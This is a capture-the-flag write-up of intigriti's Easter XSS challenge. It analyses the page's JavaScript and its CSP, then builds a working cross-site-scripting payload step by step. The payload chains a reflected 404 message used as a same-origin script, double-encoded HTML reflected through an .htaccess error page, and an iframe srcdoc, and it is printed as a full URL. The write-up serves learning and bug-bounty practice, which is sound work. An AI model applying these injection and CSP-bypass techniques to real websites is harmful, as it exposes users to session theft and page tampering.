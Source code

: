 ```yaml
---
layout: writeup
categories: [writeup]

# Mandatory parameters
title:  "Easter XSS Challenge"
author: "Alain K."
date:   2020-04-13 21:00:05 +0200
event: "intigriti"

# Optional parameters
ctf_categories: [xss, csp, web]
image: "website.png"
---
```



## Description

Every once in a while, [intigriti](https://www.intigriti.com/) drops a new XSS challenge. (Follow them on [Twitter](https://twitter.com/intigriti) to know when the next one drops). The challenge had a pretty straightforward description:

> Find a way to execute arbitrary javascript on this page and win a Burp Suite Pro License.

With the following conditions:

* Should work on the latest version of Firefox or Chrome
* Should bypass CSP
* Should execute the following JS: alert(document.domain)
* Should be executed on this page, on this domain
* Should work without user interaction (no self XSS) or MiTM

## Analysis

### Appearence & Behaviour

![Website Screenshot](website.png)

The website was very simple. It had one simple functionality, which was for the user to select the title of a slogan in a drop-down and then the whole slogan text would appear below the drop-down.

One can also notice that the location hash changed depending on the selection in the drop-down. Also, when loading the website with a correct hash, that slogan text would appear without user interaction.

### Source Code
Next, I looked at the source code. The HTML was very simple and had nothing interesting to exploit. However, it included the following script:

```js
var hash = document.location.hash.substr(1);
if(hash){
	displayReason(hash);
}
document.getElementById("reasons").onchange = function(e){
if(e.target.value != "")
	displayReason(e.target.value);
}

function reasonLoaded () {
	var reason = document.getElementById("reason");
	reason.innerHTML = unescape(this.responseText); //❶
}

function displayReason(reason){
	window.location.hash = reason;
	var xhr = new XMLHttpRequest();
	xhr.addEventListener("load", reasonLoaded);
	xhr.open("GET",`./reasons/${reason}.txt`); //❷
	xhr.send();
}
```
Here it starts getting interesting. `displayReason` is called with the location hash as parameter. It will then load a text file with the hash's name using xhr ❷ and finally `reasonLoaded` will be executed, which renders the content of that *unescaped* text file using *innerHTML* ❶.


Trying to load a file that doesn't exist (`https://challenge.intigriti.io/reasons/20.txt`) we get the following error:

```404 - 'File "20.txt" was not found in this folder.'```

It's interesting that the filename that doesn't exist gets reflected in the error message.


### HTTP Headers

When trying to execute XSS, it is important to know which CSP is set. The CSP header allows us to know what resources are possible to load. As a hacker this can "help" us reduce the attack surface. For this challenge, the CSP header is set to:

```content-security-policy: default-src 'self'```

This means, that no resources (scripts, images, ...) from other hosts can be loaded. Also we can't execute own inline scripts (`<script>alert(1)</script>`, `document.location=javascript:alert(1)`, `<img src onerror=alert(1)>`). This leaves us with the only option to load js using `<scipt src="blub.js">` where `blub.js` is hosted on the same host as the website itself. So trying to load scripts from a server we control is useless.

Another interesting header to look at is the `X-Frame-Options` header. Here it is not set, meaning we could load the website inside an iframe. This can be useful sometimes to change the hash location during run-time without user interaction.

## Attack
OK, now that I gathered enough information, I started with the interesting part: the attack! :)

The code at ❶ is the only part where dynamic content is added to the website. So this has to be the sink where our payload needs to be written.

We found out in the analysis that the filename we try to gather gets reflected in the error message. Let's try to reflect our own html elements:

```
curl https://challenge.intigriti.io/reasons/%3Cimg%20src=x%3E.txt

404 - 'File "_3Cimg_20src=x_3E.txt" was not found in this folder.'
```

Huh, what happened here? They seem to filter the user input. Precisely, they replace all occurrences of `%` with `_`. Dang, we need `<` and `>` to reflect our own HTML. This is impossible without URL-encoding them. Maybe their filtering has some weak spots. Let's try double encoding, just to be sure:

```
curl https://challenge.intigriti.io/reasons/%253Cimg%2520src%253Dx%253E.txt

404 - 'File "_253Cimg_2520src_253Dx_253E.txt" was not found in this folder.'
```

Too bad, would have been too easy. But hey, even if I can't reflect my own html elements. Maybe I can use this reflection later for generating my own js code that is hosted on their site. `404 - 'File "%s" was not found in this folder.'` seems to be the static string. `404 -` is a valid js subtraction if we provide a correct right hand expression. As we control `%s`, maybe we can close the single quote before "File" and then execute our own js? Let's try:

```
curl "https://challenge.intigriti.io/reasons/';alert(1);a='"

404 - 'File "';alert(1);a='" was not found in this folder.'
```

Nice, they don't escape the single quote so we manage to generate our own valid javascript code!

Now I found a way to bypass the CSP by using `<script src="reasons/';alert(1);a='">` but I still have no way to include that script tag inside the HTML...

After playing around for a while, I tried to access `.htaccess` and to my surprise I received a different response than the typical `File was not found in this folder`:

```html
<!DOCTYPE  HTML  PUBLIC  "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess on this server.</p>
```

Hmm, maybe it's possible to reflect more than the file name with the query string: `./htacess?reflect`

```html
curl https://challenge.intigriti.io/.htaccess?reflect

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess?reflect on this server.</p>
```

Nice, let's try if we manage to reflect our own HTML here:

```html
curl https://challenge.intigriti.io/.htaccess?%3Cimg%20src=x%3E

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess?&lt;img src=x&gt; on this server.</p>
```

Dang, here they correctly html escape the `<` and `>`. But wait! In ❶ they use the `unescape`function before setting the innerHTML. So we should be able to double escape our payload and itshould get unescaped once by the script that shows the forbidden page and once again by the `unescape` call. Let's try it all out, by appending `.htaccess` with our double-encoded image tag to the location hash:

```https://challenge.intigriti.io/#.htaccess?%253Cimg%2520src%253Dx%253E```

![Successful HTML reflection](html.png)

What have we got here! Our own html on their page! Now that we have our 2 building blocks: Our own HTML and a CSP bypass, let's try to combine them:

```html
https://challenge.intigriti.io/#.htaccess?%253Cscript%2520src%253D%2522reasons%252F%2527%253Balert%25281%2529%253Ba%253D%2527%2522%253E%253C%252Fscript%253E

(the long encoded string is <script src="reasons/';alert(1);a='"></script> double url-encoded.)
```

But nothing happens... I completely forgot: `innerHTML` doesn't execute script tags anymore since HTML5. I know of some bypasses using `<img src onerror="alert(1)">` but these were all inline scripts which got all blocked by the CSP... Maybe I can include an iframe with a script tag that will still execute using innerHTML?

```html
<iframe srcdoc="<script src=reasons/';alert(1);a='></script>"></iframe>
```

Double encoding it and appending it to `.htaccess`:

```https://challenge.intigriti.io/#.htaccess?%253Ciframe%2520srcdoc%253D%2522%253Cscript%2520src%253Dreasons%252F%2527%253Balert%25281%2529%253Ba%253D%2527%253E%253C%252Fscript%253E%2522%253E%253C%252Fiframe%253E```

![Final exploit](finished.png)



## Lessons learned

- Even if you find something that isn't quite useful yet, it might come in handy later
- Check and understand the CSP policy
- Double encoding to the rescue